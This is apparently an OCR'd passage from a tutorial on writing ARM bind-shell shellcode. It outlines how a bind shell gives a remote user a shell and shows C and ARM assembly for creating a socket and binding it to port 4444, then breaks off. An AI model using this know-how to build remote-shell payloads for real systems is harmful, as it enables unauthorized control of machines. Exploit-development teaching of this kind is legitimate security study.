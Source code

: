 1. Creates a network socket
2. Binds to a specific port
3. Listens for incoming connections
4. When someone connects, it redirects standard I/O to the socket
5. Spawns a shell, giving the remote user control

Key ARM registers we'll use:

- `r0-r3`: Argument/scratch registers (for syscall parameters)
- `r7`: Holds the syscall number
- `pc`: Program counter (like EIP in x86)

#### A. Create a Socket

```c
#include <sys/socket.h>
#include <netinet/in.h>
#include <stdlib.h>

int main() {
    // Create socket
    int sockfd = socket(AF_INET, SOCK_STREAM, 0);
    if (sockfd < 0) {
        perror("socket creation failed");
        exit(EXIT_FAILURE);
    }
```

```s
// Create socket
// int sockfd = socket(AF_INET, SOCK_STREAM, 0);
mov r0, #2      // AF_INET (IPv4)
mov r1, #1      // SOCK_STREAM (TCP)
mov r2, #0      // Protocol (0 for IP)
mov r7, #281    // socket syscall number (may vary by OS)
svc #0          // Execute syscall
mov r4, r0      // Save returned socket file descriptor in r4
```


#### B. Bind the Socket

```c
    // Bind socket
    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(4444);  // 0x5c11 in assembly
    addr.sin_addr.s_addr = INADDR_ANY;  // 0.0.0.0
    
    if (bind(sockfd, (struct sockaddr*)&addr, sizeof(addr)) < 0) {
        perror("bind failed");
        close(sockfd);
        exit(EXIT_FAILURE);
    }
```
